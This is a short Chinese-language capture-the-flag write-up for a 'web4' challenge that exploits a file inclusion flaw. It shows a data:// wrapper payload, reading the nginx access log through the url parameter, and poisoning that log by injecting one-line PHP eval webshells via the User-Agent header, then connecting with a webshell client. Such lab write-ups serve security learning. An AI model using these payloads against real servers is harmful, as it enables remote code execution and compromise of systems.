








## web4

+ 查看页面如下，看解释仍然是文件包含漏洞

+ 使用<code>data</code>协议查看当前目录下所有文件

~~~ shell
?url=data://plain/text,<?php print_r(glob('*'))?>
~~~

发生了错误，此路不通，考虑换一种方法

+ 使用<code>burpsuite</code>查看数据包

~~~ txt
发现该道题使用的是nginx服务器，那我们想到可不可以通过日志文件进行写码来得到flag呢，所以我们访问日志看看
~~~

+ 使用如下语句查看日志文件

~~~ shell
?url=/var/log/nginx/access.log
~~~

查询日志发现，每访问一次数据包中的UA头会被写入日志文件中，则可尝试在UA头写码

+ <code>User-Agent</code>注入以下语句

~~~ shell
<?php eval($_POST["ctfshow"]); ?>
<?php eval($_REQUEST["ctfshow"]); ?>
~~~

发现日志上没有显示一句话木马则说明木马已经被解析了

+ 用蚁剑连接

